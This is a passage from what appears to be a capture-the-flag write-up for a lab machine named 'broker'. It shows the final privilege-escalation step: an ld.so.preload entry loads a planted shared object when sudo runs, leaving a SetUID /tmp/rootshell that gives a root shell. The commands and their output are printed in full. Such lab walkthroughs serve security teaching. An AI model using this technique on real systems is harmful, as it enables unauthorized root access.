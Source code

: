 #### Run SetUID Binary

Now I just need to run something that starts as root. `sudo -l` will work nicely:

```

activemq@broker:/tmp$ sudo -l
ERROR: ld.so: object '2023/11/08' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '21' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
...[snip]...
ERROR: ld.so: object '1339"' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx

```

It fails to load a bunch of shared objects, but if it loaded `pwn.so`, then `/tmp/rootshell` should be SetUID and SetGID now. It is:

```

activemq@broker:/tmp$ ls -l /tmp/rootshell 
-rwsr-xr-x 1 root root 1396520 Nov  8 21:07 /tmp/rootshell

```

Running it with `-p` returns a root shell:

```

activemq@broker:/tmp$ /tmp/rootshell -p
rootshell-5.1# id
uid=1000(activemq) gid=1000(activemq) euid=0(root) groups=1000(activemq)

```